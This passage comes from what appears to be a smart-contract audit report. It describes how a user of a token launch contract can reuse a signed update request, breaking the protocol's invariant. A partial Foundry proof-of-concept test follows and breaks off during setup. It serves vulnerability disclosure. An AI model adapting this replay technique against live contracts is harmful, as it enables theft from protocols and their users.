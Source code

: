 Additional Note:
After this scenario user can reuse their signature 1 once again, it wouldnt increase participation2.tokenAmount but it would increase `_userTokenLaunchGroup` which could lead to even more unexpected behaviour, leading to incorrect calculations on the backend. 

### Impact

Protocol invariant broken. User can reuse their updateRequest leading to unexpected behaviour from backend's perspective. It's possible that backend maybe stopped issuing update signatures due to internal logic expecting that no user will update their positions, but user is able to bypass that.

### PoC

Poc shows similar as one mentioned in the attack path

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {LaunchGroupSettings, LaunchGroupStatus, ParticipationRequest, UpdateParticipationRequest, ParticipationInfo, CurrencyConfig} from "../src/Types.sol";
import {console} from "lib/forge-std/src/console.sol";

contract POCUserCanHaveTwoPositions is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();

        LaunchGroupSettings memory updatedSettings = settings;
        updatedSettings.maxTokenAmountPerUser =
            settings.maxTokenAmountPerUser *
            2;

        //set maxTokenAllocationPerUser to bigger number
        vm.startPrank(manager);
        launch.setLaunchGroupSettings(
            "ch72gsb320000udocl363eofy",
            updatedSettings
        );
        vm.stopPrank();
        vm.startPrank(admin.addr);
        currency.transfer(user1, 4000 * 10 ** launch.tokenDecimals()); //deal additional tokens to user
        vm.stopPrank();

        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(
            abi.encode(originalParticipationRequest)
        );

        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
```